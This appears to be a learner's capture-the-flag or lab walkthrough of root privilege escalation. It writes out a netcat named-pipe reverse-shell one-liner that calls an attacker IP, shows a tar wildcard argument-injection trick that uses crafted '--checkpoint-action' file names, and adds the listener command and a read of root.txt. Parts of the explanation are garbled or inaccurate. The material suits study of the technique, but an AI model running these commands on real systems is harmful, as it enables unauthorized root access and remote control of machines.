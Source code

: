   Creating a reverse shell to send to the target machine to be run as root. **\(read page 567 Insecure File permissions Cron Case Study\)**

  * navigate to /var/www/html
  * `touch shell.sh`: makes a bash script named shell \(its contents are empty\)
  * `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.171.176 4444 > /tmp/f" > shell.sh`: here the shell and netcat are redirecting to each other in a loop, it is taking advantage of I/O redirection and shell interactive mode \(on by default when on a TTY\). The stdout of nc is copied to /tmp/f, meaning whatever it receives from the attacking machine \(a shell\) over the network goes there. Shell reads commands from fifo and sends commands over the network via pipe to nc. The commands sent from remote to local shell are written by nc to the fifo, keeping the loop.
  * if previous command fails ; indicates the second will still run, when && is used the second command will not run. When &gt; is used over &gt;&gt; then the file already exists \(touch  if nonexisistent\). pipe \| symbol means the output of the first command is input of second command.
    * `echo "" > shell.sh`: saves whatever is in quotations to the file shell.sh
    * `rm /tmp/f:` removes the fifo file
    * `mkfifo /tmp/f`: remakes the fifo file
    * `cat /tmp/f`: prints the contents of the fifo file /tmp/f. Necessary because the shell cant use stdout to print the output since it needs to send the shell to nc. This is used to print whatever command is issued from the attacker \(i.e the shell\)
    * `/bin/sh -i 2>&1`: invokes the interactive bash shell \(-i\), 2&gt;&1 means the stdout and stderr \(stderr = 2\) are redirected to command \(nc\). This command cannont use stdout to print the output or stdin. \(nc for out and cat for in\)
    * `nc 10.10.171.176 4444 > /tmp/f`: stdout of nc is copied to /tmp/f \(whatever is sent over the network goes here, aka the shell to be run as root\). We use tmp because any program can run and unprivileged users can run programs to elevate their user access. Anything written to the fifo is printed by cat, since the output of cat is the input of /bin/sh, /bin/sh executes and sends the output to nc, which is sent to the attacking machine. 
  * `touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"`: apart of tar binary and arbitrary command execution. This option in the binary executes ACTION on each checkpoint. the action is the command sh \(tool to run programtexecute string, input or file\) shell.sh. it runs the bash script through sh which is the language interpreter in the specified language \(aka bash shell in bash script\)
  * `touch "/var/www/html/--checkpoint=1"`: display progress messages every nth record 
  * \(on attacker\) `nc -lvnp 4444`
  * `cd /root && cat root.txt`

